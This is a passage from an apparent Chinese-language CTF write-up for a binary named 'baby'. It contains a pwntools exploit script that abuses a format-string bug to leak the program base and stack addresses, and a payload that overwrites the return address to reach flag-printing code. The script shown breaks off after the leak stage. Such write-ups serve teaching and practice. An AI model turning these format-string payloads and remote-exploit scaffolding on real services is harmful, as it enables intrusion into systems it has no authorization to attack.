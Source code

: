 > 清空变量、泄漏程序基址、泄漏栈地址。

payload2:

```python
payload = '%%%dc'%(flag&0xffff)+'%10$hn'
payload = payload.ljust(16,'A')
payload+= p64(stack)
sl(payload)
```

> 覆盖返回地址为打印flag部分代码地址

### exp

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './baby'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = '../libc.so.6'

is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
    p = process(local_file,env={'LD_PRELOAD':remote_libc})
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

# info
sla('tell me the time:','1 1 1')
sla('>>','2')
sl('%7$hhn%17$p.%16$p')
```